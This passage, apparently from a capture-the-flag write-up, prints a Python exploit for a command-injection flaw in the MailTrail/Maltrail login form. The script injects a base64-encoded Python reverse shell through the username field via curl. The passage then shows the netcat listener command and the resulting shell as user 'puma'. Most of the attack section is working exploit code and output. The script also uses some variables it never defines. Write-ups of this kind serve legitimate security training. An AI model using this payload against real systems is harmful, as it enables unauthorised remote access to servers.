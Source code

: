 # Fail-safe for arguments
if len(sys.argv) != 4:
print("Usage: python3 mailtrail.py <your ip> <your port> <target url>")
sys.exit(-1)


# Exploit the vulnerbility
def exploit(my_ip, my_port, target_url):
# Defining python3 reverse shell payload
payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
# Encoding the payload with base64 encoding
encoded_payload = base64.b64encode(payload.encode()).decode()
# curl command that is to be executed on our system to exploit mailtrail
command = f"curl '{target_url}/login' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
# Executing it
os.system(command)


print("\n[+]Exploiting MailTrail on {}".format(str(TARGET_URL)))
try:
exploit(YOUR_IP, YOUR_PORT, TARGET_URL)
print("\n[+] Successfully Exploited")
print("\n[+] Check your Reverse Shell Listener")
except:
print("\n[!] An Error has occured. Try again!")
{% endhighlight %}

A listener is set up using netcat, and we run the Python exploit.

##### Command:
>nc -lnvp 4444

##### Command:
>python exploit.py [Attacking IP] [Listening Port] [Target URL]

This worked, and we have gained a shell. We are on the user ‘puma’.

```
└─$ nc -lnvp 4444  
listening on [any] 4444 ...
connect to [attacker] from (UNKNOWN) [target] 34660
$ whoami
whoami
puma
```
